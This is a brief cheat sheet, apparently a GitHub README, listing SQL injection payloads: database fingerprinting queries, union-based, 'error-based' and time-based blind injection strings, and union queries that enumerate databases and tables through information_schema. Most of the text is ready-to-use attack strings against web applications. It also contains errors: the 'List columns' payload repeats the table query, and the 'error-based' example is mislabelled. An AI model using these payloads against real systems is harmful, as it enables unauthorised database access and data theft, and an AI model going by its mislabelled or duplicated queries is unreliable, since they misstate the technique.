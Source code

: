 # Techniques to identify the database and the commands for SQLinjection
---
1. Identify the database workspace.
   (e.g., MySQL, PostgreSQL, SQL Server, Oracle)

   start some basics commands to see it :
   SELECT 1: Checks if the database responds to a simple query. 
   SELECT @@version: Retrieves the version of the database (useful for identifying the database).

2. Common SQL injection Payloads.
   Union-based injec :
   ' UNION SELECT NULL, table_name FROM information_schema.tables --
   Error-based injec :
   ' AND 1=2 --
   Blind injec :
   ' AND SLEEP(5) --

   3. Test the schema.
    This schema is presented in many SQL databases, `information_schema`
*List databases*
  ' UNION SELECT NULL, database() --
*List tables*
  ' UNION SELECT NULL, table_name FROM information_schema.tables --
*List columns*
  ' UNION SELECT NULL, table_name FROM information_schema.tables --
